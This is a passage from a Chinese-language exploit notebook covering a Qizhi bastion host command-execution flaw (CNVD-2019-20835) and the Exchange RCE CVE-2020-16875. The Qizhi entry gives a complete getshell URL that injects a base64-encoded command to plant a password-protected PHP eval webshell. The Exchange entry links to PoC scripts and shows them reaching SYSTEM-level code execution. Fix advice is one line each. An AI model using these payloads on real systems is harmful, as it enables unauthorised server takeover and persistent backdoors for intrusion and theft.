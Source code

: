 ### 七、齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）

**漏洞描述：**

浙江齐治科技股份有限公司是一家主要经营计算机软硬件、网络产品的技术开发等项目的公司。

齐治运维堡垒机服务端存在命令执行漏洞，攻击者可利用该漏洞获取服务器权限。

**利用过程：**

未授权无需登录。

1. 访问 http://10.20.10.11/listener/cluster_manage.php  :返回 "OK".
2. 访问如下链接即可getshell，执行成功后，生成PHP一句话马
3. /var/www/shterm/resources/qrcode/lbj77.php  密码10086

```
https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
```

**加固建议：**

该漏洞的修复补丁已发布，请关注厂商主页更新：https://www.shterm.com/

### 八、CVE-2020-16875: Exchange Server 远程代码执行漏洞

**漏洞描述：**

2020年09月09日，360CERT监测发现Microsoft Exchange 发布了Exchange命令执行漏洞 的风险通告，该漏洞编号为CVE-2020-16875 ，漏洞等级：严重，漏洞评分：9.1。

远程攻击者通过 构造特殊的cmdlet参数 ,可造成任意命令执行的影响。

对此，360CERT建议广大用户及时将Exchange 升级到最新版本。与此同时，请做好资产自查以及预防工作，以免遭受黑客攻击。

**影响版本**

* microsoft:exchange_server_2016: cu16/cu17
* microsoft:exchange_server_2019: cu5/cu6

**利用过程：**

更新公告:https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16875

微软公告说的很明显,只需要一个Exchange用户账号。就能在Exchange服务器上执行任意命令。

* https://srcincite.io/pocs/cve-2020-16875.py.txt
* https://srcincite.io/pocs/cve-2020-16875.ps1.txt


```
researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
(+) triggered rce as SYSTEM!
```
